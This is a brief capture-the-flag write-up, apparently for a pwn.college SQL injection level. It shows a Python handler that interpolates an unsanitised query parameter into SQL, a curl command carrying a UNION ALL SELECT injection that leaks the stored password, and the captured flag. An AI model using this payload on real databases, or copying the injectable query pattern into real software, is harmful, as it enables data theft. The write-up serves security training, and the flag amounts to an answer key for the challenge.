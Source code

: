 # Level 5

We are given with a task of `Exploit a structured query language injection vulnerability to leak data`

As usual we got the machine access and source code access.

```python {8} /{query}/ copy

def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)

```
We can see that the query is not sanitized and we can use the `UNION` operator to get the flag.

```bash
curl -s -X GET 'http://challenge.localhost/?query=flag" UNION ALL SELECT password FROM users --'
```
it will retrives the flag

```bash copy
pwn.college{IvXTaIYF_kFjcQlW7YfGlT_cgMz.dFTOzMDL0IzMyMzW}
```